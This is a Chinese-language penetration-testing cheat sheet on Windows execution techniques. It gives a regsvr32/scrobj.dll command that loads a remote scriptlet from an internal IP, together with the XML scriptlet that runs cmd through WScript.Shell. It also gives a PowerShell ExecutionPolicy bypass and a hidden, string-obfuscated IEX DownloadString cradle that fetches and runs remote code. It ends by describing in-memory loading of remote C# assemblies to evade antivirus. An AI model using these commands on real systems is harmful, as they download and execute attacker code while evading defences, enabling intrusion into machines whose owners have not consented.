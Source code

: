 # regsvr32

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。

- /u 取消注册
- /s 指定 regsvr32 安静运行，在成功注册/反注册DLL文件的前提下不显示结果提示框。
- /n 指定不调用 DllRegisterServer。此选项必须与 /i 共同使用。
- /i:cmdline 调用 DllInstall 将它传递到可选的 [cmdline]。

```cmd
C:\Users>regsvr32 /u /n /s /i:http://192.168.211.1/a.png scrobj.dll
```

后面的dll文件名不能更改。这个文件可以是任意后缀名，文件内容格式得是xml格式的：

```xml
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k whoami"); 
]]>
</script>
</registration>
</scriptlet>
```

# POWSHELL

本地执行powershell

```powershell
powershell.exe -ExecutionPolicy Bypass -file rgb.ps1
```

远程加载脚本并进行参数的混淆。

```powershell
powershell.exe -nop -w hidden -c "$c1='IEX(New-Object Net.WebClient).123'.Replace('123','Downlo');$c2='adString(''httaaa.101.120:80/a'')'.Replace('aaa','p://172.19');IEX ($c1+$c2)"
```

powershell是一个exe程序，可以执行自己的命令或者powershell脚本。其实powershell的本质就是解释器，类似于python。python解释器通过解释了python脚本来调用操作系统给予的各种底层函数；powershell通过解释powershell脚本，来调用System.Management.Automation.dll。

System.Management.Automation是.NET 框架下的一个assembly类。而c#语言可以将所谓的c#“脚本”解释后来调用.NET框架下所有的assembly。因此我们可以用c#实现powershell的功能。这在当powershell被某些策略禁用的时候十分好用。

assembly类可以加载byte[]类型的数据到内存中并当作一个assembly文件去执行。assembly文件就是c#写的dll文件与exe文件。然而还有函数可以将远程的exe文件下载到本地并用byte[]格式去保存。

这两个方式结合后就可以实现[下载远程c#文件到内存中直接执行](https://github.com/shanfenglan/sflcsharp-assembly)，可以绕过绝大多数杀软。
